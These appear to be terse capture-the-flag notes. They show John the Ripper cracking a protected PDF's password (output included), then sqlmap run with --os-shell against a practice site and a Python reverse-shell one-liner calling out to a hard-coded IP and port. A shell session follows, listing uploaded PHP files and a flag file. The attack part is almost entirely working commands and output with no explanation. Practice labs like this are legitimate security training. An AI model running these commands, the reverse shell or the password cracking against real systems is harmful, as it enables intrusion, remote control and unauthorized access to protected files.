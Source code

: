 MISC

## Finding the password to a protected pdf:
git clone https://github.com/magnumripper/JohnTheRipper.git
cd ./JohnTheRipper/src
./configure && make
cd ..
cd ./run

C:\home\slicer\repos\JohnTheRipper\run> ./pdf2john.pl ~/Downloads/pdfpassword.pdf > ~/Downloads/pdfhash

C:\home\slicer\Downloads> sudo john pdfhash 
Using default input encoding: UTF-8
Loaded 1 password hash (PDF [MD5 SHA2 RC4/AES 32/64])
Cost 1 (revision) is 4 for all loaded hashes
Will run 8 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 5 candidates buffered for the current salt, minimum 8 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
football         (/home/slicer/Downloads/pdfpassword.pdf)
1g 0:00:00:00 DONE 2/3 (2020-03-06 13:13) 5.882g/s 238000p/s 238000c/s 238000C/s 123456..franklin
Use the "--show --format=PDF" options to display all of the cracked passwords reliably
Session completed



{siht_dnif_uoy_did_woh}

http://bb.threatsims.com/
sqlmap -u http://bb.threatsims.com/index.php --forms --os-shell

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("165.227.195.68",5656));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


$ python -c 'import pty; pty.spawn("/bin/sh")'
$ ls
ls
404.php         tmpbszgm.php  tmpufnki.php  tmpunkre.php  tmpuvkpe.php
beanie-img.jpg  tmpbtmrj.php  tmpugkli.php  tmpunlvz.php  tmpuycbu.php
flag.txt        tmpbudaa.php  tmpujsqi.php  tmpunqnp.php  tmpuyroc.php
index.php       tmpbvuzl.php  tmpukjwy.php  tmpuqszn.php  tmpuzaqj.php
tmpbaedo.php    tmpbwklq.php  tmpukyke.php  tmpurspk.php  tmpuzbzj.php
tmpbixak.php    tmpbwkyb.php  tmpuljew.php  tmpuryfe.php  tmpuzmet.php
tmpbjoaj.php    tmpbxfua.php  tmpulqpi.php  tmpuryjo.php  tmpuznec.php
tmpblgbs.php    tmpbyiho.php  tmpumfua.php  tmpusgxn.php  tmpuzvum.php
tmpbmaqp.php    tmpbzwji.php  tmpumjvu.php  tmpushyv.php  tmpuzvwn.php
tmpbpphn.php    tmpuahbn.php  tmpundjg.php  tmpuspml.php  tmpuzwvj.php
tmpbqvka.php    tmpucgam.php  tmpundrf.php  tmpuswwg.php  tmpuzxin.php
tmpbqwyk.php    tmpucuih.php  tmpungtb.php  tmputruu.php  tmpuzxpz.php
tmpbsvzo.php    tmpucxvf.php  tmpunjdl.php  tmpuuehm.php
